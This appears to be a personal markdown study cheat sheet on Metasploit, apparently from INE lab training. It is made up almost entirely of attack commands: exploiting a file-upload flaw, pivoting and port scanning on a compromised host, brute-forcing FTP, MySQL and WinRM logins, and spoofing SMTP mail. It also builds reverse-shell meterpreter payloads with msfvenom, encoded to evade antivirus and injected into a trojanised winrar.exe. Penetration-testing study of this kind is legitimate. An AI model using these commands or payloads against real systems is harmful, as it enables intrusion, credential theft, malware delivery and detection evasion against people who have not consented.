 <h1>Metasploit Fundamentals</h1>

Initialisation of database
```
sudo systemctl start postgresql
```

```
sudo msfdb init
sudo msfdb reinit
sudo msfdb status
```
In meterpreter
```
search type:exploits platform:windows
```

```
workspace -h
hosts
workspace -a Testspace
workspace
hosts
workspace default
workspace -d Testspace
workspace -a Moew
workspace -r Moew Meow
```

<h2>T1046:Network Service Scanning </h2>
```
msfconsole
use exploit/unix/webapp/xoda_file_upload
set RHOSTS demo1.ine.local
set TARGETURI /
set LHOST 192.63.4.2
exploit
```

```
shell
ip addr
```

```
run autoroute -s <attackerIP>
```

```
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.180.108.3
set verbose false
set ports 1-1000
exploit
```

```
ls -al /root/static-binaries/nmap
file /root/static-binaries/nmap
```

bash-port-scanner.sh
```
#!/bin/bash
for port in {1..1000}; do
 timeout 1 bash -c "echo >/dev/tcp/$1/$port" 2>/dev/null && echo "port $port is open"
done
```

```
sessions -i 1
```

```
upload /root/static-binaries/nmap /tmp/nmap
upload /root/bash-port-scanner.sh /tmp/bash-port-scanner.sh
```

we have uploaded nmap and our bash-port-scanner.sh to run in the target machine.

<h2>FTP</h2>
To perform file brute-force attacks on the web server?
```
auxililary/scanner/http/files_dir
auxiliary/scanner/ftp/ftp_version
auxiliary/scanner/ftp/ftp_login
auxiliary/scanner/ftp/anonymous
```

<h2>SQL</h2>
 MySQL auxiliary module can be used to execute authenticated SQL queries on a MySQL database server?
 ```
auxiliary/scanner/mysql/mysql_version
auxiliary/scanner/mysql/mysql_login
auxiliary/admin/mysql/mysql_enum
auxiliary/admin/mysql/mysql_sql
auxiliary/scanner/mysql/mysql_file_enum
auxiliary/scanner/mysql/mysql_hashdump
auxiliary/scanner/mysql/mysql_schemadump
auxiliary/scanner/mysql/mysql_writable_dirs
 ```

<h2>SMTP</h2>
```
nmap -sV -script banner demo.ine.local
```

```
nc demo.ine.local 25
```
```
VRFY admin@openmailbox.xyz
```

```
telnet demo.ine.local 25
HELO attacker.xyz
EHLO attacker.xyz
```

```
smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t demo.ine.local
```

```
msfconsole -q
use auxiliary/scanner/smtp/smtp_enum
set RHOSTS demo.ine.local
exploit
```

```
telnet demo.ine.local 25
HELO attacker.xyz
mail from: admin@attacker.xyz
rcpt to:root@openmailbox.xyz
data
Subject: Hi Root
Hello,
This is a fake mail sent using telnet command.
From,
Admin
.
```

```
sendemail -f admin@attacker.xyz -t root@openmailbox.xyz -s demo.ine.local -u Fakemail -m "Hi root, a fake from admin" -o tls=no
```



MSFconsole search queries can be used to search for specific CVE's released in a specific year?
```
search cve:2017 platform:windows
```

<h1>Vulnerability Scanning</h1>
<h2>MSF</h2>

```
sudo service postgresql start && msfconsole
workspace -a nmap
db_nmap -Pn -sS -sV -O demo.ine.local
hosts
services
search type:exploit name: 
analyse
vulns
load db_autopwn
```

<h2> Nessus </h2>

<h2>WMAP</h2>
```
wmap_sites -a demo.ine.local
wmap_targets -h
wmap_targets -t http://demo.ine.local
wmap_sites -l
wmap_targets -l
wmap_run -h
wmap_run -t

```

<h1>Client-Side attacks</h1>
<h2>Msfvenom</h2>
```
msfvenom --list payloads
```

```
	<operatingSystem>/<OsArchitectureBit>/<PayloadType>/<Protocol>
```

```
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > /home/kali/meow.exe
```

```
msfvenom --list formats
```

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f elf > /home/kali/meow_x86
```

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST= LPORT= -f elf > /home/kali/meow_x64
```

```
msfconsole
use exploit/multi/handler
show options
set payload 
set LHOST
set LPORT
```

ENCODING 

`shellcode` is a piece of code that is typically used as a payload for exploitation


```
	msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -e x86/shikata_ga_nai -f exe > /home/kali/enocde/meowEncodeed.exe
```

increasing iterations will reduce the chances of detection

```
	msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -i 10 -e x86/shikata_ga_nai -f exe > /home/kali/enocde/meowEncodeed.exe
```

```
	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -i 10 -e x86/shikata_ga_nai -f elf > /home/kali/ecode/meow
```

Windows portable executable 

google: winrar and download it /Download/winrar.exe

generate a 32 bit executable payload and inject it into winrar

```
	msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -e x86/shikata_ga_nai -f exe -x ~/Downloads/winrar.exe > /home/kali/enocde/meowEncodeed.exe
```
this file above is not executable
	Migrate : meterpreter> run post/windows/manager/migrate
to avoid detection

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -e x86/shikata_ga_nai -f exe -x ~/Downloads/winrar.exe > /home/kali/enocde/meowEncodeed.exe
```
this file above is executable

Automation of commands in msfconsole

```
vim handler.rc
`
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 
set LPORT 
run
`
msfconsole -r handler.rc
```

```
vim portscanner.rc
`
use auxiliary/scanner/portscan/tcp
set RHOST
set LHOST
run
`
```

```
vim db_status.rc
`
db_status
workspace 
workspace -a Meow
`
```

to Load resource into mf6>
```
resouce hanler.rc
```

to Explort the previously typed commands in msf6
```
makerc /meowmeoew/meow.rc
```

<h2>WinRm</h2>
<i>Port Number: 5985 TCP 5986 https</i>
```
use auxiliary/scanner/winrm/winrm_wql
setg RHOSTS 

use auxiliary/scanner/winrm/winrm_login
set USER_FILE
set PASS_FILE

use auxiliary/scanner/winrm/winrm_cmd
set USERNAME
set PASSWORD
set CMD

use auxiliary/scanner/winrm/winrm_script_exec
set USERNAME
set PASSWORD
set FORCE_VBS true
```